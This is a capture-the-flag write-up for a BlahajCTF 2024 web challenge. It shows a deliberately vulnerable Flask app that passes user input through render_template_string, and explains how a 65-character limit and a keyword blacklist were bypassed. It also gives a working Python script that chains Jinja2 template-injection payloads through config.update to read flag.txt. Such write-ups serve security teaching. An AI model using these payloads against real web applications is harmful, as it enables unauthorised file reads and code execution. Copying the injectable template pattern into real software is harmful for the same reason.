 ```yaml
---
title: SSTI-Golf
date: 2024-11-26
tags: 
- web
- author-FS
categories: BlahajCTF 2024
---
```


by {% person FS %}

> I got bored of code-golfing so I decided to come up with ssti-golfing.

This challenge was hosted on http://golf.c1.blahaj.sg/.

![](../../static/BlahajCTF2024/golf.png)

This challenge was a classic Jinja2 SSTI challenge but with a (pretty strict) length restriction challenge implemented. Looking at the source code below, it's quite short and not much to really digest.

```py
from flask import Flask, request, render_template, render_template_string
from waitress import serve
import flask
import os
import time

app = Flask(__name__)
app.secret_key=os.urandom(32)

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/greet", methods=["POST"])
def greet():
    blacklist=['cycler','joiner','namespace','lipsum','globals','builtins','request']
    comment=request.form.get("comment")
    if len(comment)>65:
        return render_template("index.html",comment="That's kinda too much for a comment.")
    for i in blacklist:
        if i in comment.lower():
            print('builtins' in comment)
            return render_template("index.html",comment="I don't really like your comment. >:( ")
    return render_template_string(f"Damn. You like {comment}?")

if __name__ == "__main__":
    print(flask.__version__)
    serve(app,host="0.0.0.0",port=8000)

```

The ```render_template_string()``` function directly injects the user supplied data (the comment parameter) into the f-string before rendering it which makes this web app vulnerable to SSTI. However, we see that it checks if the length of the user supplied data exceeds 65 characters (this was a mistake in the source code since it was intended to be 40 but i had deployed this challenge with the restriction being 65 characters so this challenge became significantly more easier (unintended)) and it also blocks a few terms (the blacklist) that can make the SSTI payload extremely short.

However, we can easily get around this restriction by breaking apart our ssti payload into several pieces and storing them into flask config variables since this web app doesn't block using config variables. So you could store ```''.__class__.__mro__[1].__subclassess__``` into a config variable by running ```{{config.update({'u':'ssti-payload'})}}```. Using this method, we can store a payload to read flag.txt such as ```''.__class__.__mro[1].__subclassess__[357]("flag.txt").read()``` which is using LazyFile class to read flag.txt into the following config variables.

```py
import requests
payloads = [
    '{{config.update({"u":config.update})}}', #we are storing the config.update() method into a config variable itself to minimise characters 
    '{{config.u({"a":"".__class__.mro()})}}', #the next few lines just breaks up the payload into multiple parts and stores them into config vars
    '{{config.u({"b":"__subclasses__"})}}',
    '{{config.u({"c":config.a[1]})}}',
    '{{config.u({"d":config.c[config.b]})}}',
    '{{config.u({"e":config.d()[390]})}}',
    "{{config.e('flag.txt').read()}}" ## calling read() on the initialised LazyFile class
]

for i in payloads:
    resp=requests.post("http://127.0.0.1:8000/greet",data={"comment":i})
    print(resp.content)
```

By running this, we get the flag ```blahaj{c0nf1g_v4r14bl35_f7w}```. 

